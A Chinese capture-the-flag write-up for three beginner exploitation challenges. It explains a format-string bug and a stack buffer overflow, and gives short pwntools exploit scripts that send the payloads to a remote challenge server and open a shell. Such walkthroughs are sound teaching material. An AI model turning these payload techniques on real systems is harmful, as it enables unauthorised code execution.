### PWN新手练习区

#### get_shell

- 根据提示，可以直接get_shell，故直接nc远程连接题目地址，拿到flag。

  

#### CGfsb

- 查看文件类型。这是一个32bit 小端序的可执行文件

  

- 使用 `IDA Pro` (32位)加载该文件函数等信息。

  - 查看main()函数，按F5进行反汇编。

    

  - printf()存在格式化字符串漏洞。

  - 找到pwnme变量的地址，要利用格式化字符串漏洞修改变量pwnme的值为8，才能输出flag的内容。

    

    

- 编写exp

  ```python
  from pwn import *
  sh = remote('220.249.52.133','54394')
  sh.recv()
  sh.sendline('hacker')
  sh.recv()
  payload = p32(0x804a068) +'aaaa' +'%10$n'
  sh.sendline(payload)
  sh.interactive()
  
  ```

  - %n:当前已打印字符的个数（4个字节）。
  - %<正整数n>\$：指定占位符对应第n个参数，例如：%12$x，此处%x对应第12个参数。

- 执行exp，得到flag。

#### level0

- 使用nc远程连接题目地址。

  

- 查看文件类型。这是一个64bit 小端序的可执行文件

  

- 使用 `IDA Pro` (64位)加载该文件函数等信息。

  - 查看main()函数，按F5进行反汇编

    

  - 查看`vulnerable_function()`。read()函数允许输入0x200个字符而buf只有0x80，所以需要使用输入进行缓冲区溢出的利用。

    

  - 函数窗口处发现了一个`callsystem()`，调用了system函数，并且参数是`bin/sh`，所以尝试利用缓冲区溢出执行`callsystem()`函数获得shell权限

    

  - `callsystem()`函数的起始地址为0x400596。

    

- 编写exp

  ```python
  from pwn import *
  sh=remote('220.249.52.133','55451')
  sh.recv()
  callsystem=0x400596
  payload=0x88*'a'+p64(callsystem)
  sh.sendline(payload)
  sh.interactive()
  ```

- 执行exp，得到flag。

  